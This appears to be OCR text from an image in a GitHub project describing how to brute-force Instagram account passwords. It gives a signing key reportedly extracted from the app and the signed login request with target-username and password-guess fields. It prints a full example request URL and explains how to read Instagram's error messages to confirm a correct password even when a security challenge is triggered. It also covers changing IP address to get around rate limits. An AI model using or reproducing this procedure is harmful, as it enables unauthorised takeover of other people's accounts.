 This part is simple but may be difficult to setup , first i need to get instagram's signature which is only present in their free apk from google play , Remember our Strength can be our Weakness , All i have to do reverse engineer the apk and find the signature, lets call it ig_sig.

ig_sig = 4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178
ig_version = 4
Instagram uses HMAC Authentication for login stuff, so lets use python's hmac library. But first we have to build our body which will be encoded in json for it to actually sign with ig_sig , So the post body looks likes this...

phone_id   = <RANDOM 32 CHARACTER STRING SEPERATED WITH - on EQUAL INTERVALS>
_csrftoken = <THE MAGIC COOKIE THAT WE GOT!>
username   = <TARGET ACCOUNT>
guid       = <RANDOM 32 CHARACTER STRING SEPERATED WITH - on EQUAL INTERVALS>
device_id  = android-<RANDOM 16 CHARACTER STRING>
password   = <PASSWORD TO TRY>
login_attempt_count = 0
The above will be encoded to JSON , So to test the password we have to post the data to this url https://i.instagram.com/api/v1/accounts/login/ig_sig_key_version=4&signed_body=<SIGNED BODY>.<URL ENCODED JSON DATA> .

<SIGNED BODY>: using HMAC , sign our json encoded data with ig_sig and return a hexa value.

<URL ENCODED JSON DATA>: the same data in json but we url encode so that it goes properly to insta!

So to test a account with username as USERNAME and password with PASSWORD we simply request this url https://i.instagram.com/api/v1/accounts/login/ig_sig_key_version=4&signed_body=bc90e1b7d430f39152e92b4e7d517bfb231dbe0515ed2071dc784cf876e301c3.%7B%22phone_id%22%3A%20%2232abb45c-f605-4fd7-9b5e-674115516b90%22%2C%20%22_csrftoken%22%3A%20%22PyMH2niVQrk41UIBW0lKilleG7GylluQ%22%2C%20%22username%22%3A%20%22USERNAME%22%2C%20%22guid%22%3A%20%2267ca220c-a9eb-4240-b173-2d253808904d%22%2C%20%22device_id%22%3A%20%22android-283abce46cb0a0bcef4%22%2C%20%22password%22%3A%20%22PASSWORD%22%2C%20%22login_attempt_count%22%3A%20%220%22%7D

Take a look how I did it...

https://raw.githubusercontent.com/deathsec/instagram-py/master/observations/login_create.png

Step 3: With the json response and response code , we determine the password is correct or wrong.

if We get response 200 then the login is success but if we get response 400 , We inspect the json data for clues if it is the correct password or invalid request or too many tries. So we inspect the message from instagram json response!

Message = Challenge Required , then the password is correct but instagram got some questions so we must wait until the user logs in and answer the question and if we are lucky they will not change the password and we could login in later(Most of the time people won't change the password!)

Message = The password you entered is incorrect. , then the password is incorrect for sure , try another.

Message as something like word invalid in it then , some other error so just try again, can happen because of wordlist encoding error which i ignored because all the worldlist have encoding error!

Message = Too many tries , Time to change our ip and loop but we don't want to change our magic cookie

Thats it you just hacked instagram with a very simple algorithm!
